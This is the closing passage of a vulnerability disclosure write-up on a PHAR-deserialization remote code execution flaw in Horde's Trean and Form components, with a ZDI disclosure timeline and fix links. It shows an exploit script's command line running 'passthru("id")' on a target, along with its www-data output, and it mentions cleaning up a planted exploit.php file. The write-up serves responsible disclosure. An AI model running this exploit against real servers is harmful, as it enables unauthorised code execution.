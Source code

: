 Use it as:

```console
$ python3 exploit-phar-loading.py http://target.com username password exploit 'passthru("id");'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Just make sure to have the [`phar.readonly`][] setting disabled in the CLI version of the `php.ini` file on the attacker machine.

Please note that the `/var/www/html/static/exploit.php` file needs to be manually deleted.

[`phar.readonly`]: http://php.net/phar.readonly

## Timeline

2020-01-10
: First contact and disclosure with Zero Day Initiative (ZDI).

2020-03-04
: ZDI grants the reward.

2020-03-01
: Horde development team fixes ([Trean](https://github.com/horde/trean/commit/8844968890ac57fd0457d902bae302c85b22d566) and [Form](https://github.com/horde/Form/commit/35d382cc3a0482c07d0c2272cac89a340922e0a6)).

2020-03-10
: ZDI publishes the advisories ([Trean](https://www.zerodayinitiative.com/advisories/ZDI-20-276/) and [Form](https://www.zerodayinitiative.com/advisories/ZDI-20-275/)).


[fix]: https://github.com/horde/Form/commit/f5fc41e9d3f1a7bc9371dda5d39ea7629b0030f3
[CVE-2019-9858]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9858
[^phar-extension]: Apparently it is not strictly needed to use the `.phar` extension, *any* non-empty extension will cause PHP to treat the file as PHAR if accessed via the `phar://` scheme.
[^three-blocks]: Actually the Git version comes with a third apparently vulnerable block (`Tagsearch.php`) but it is missing in the PEAR and Debian APT versions.
[^manual]: This cannot be done directly from the web page, either intercept the request or use the developer tools of the browser to change the value.
[^phar-unserialization]: See [File Operation Induced Unserialization via the "phar://" Stream Wrapper](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf).
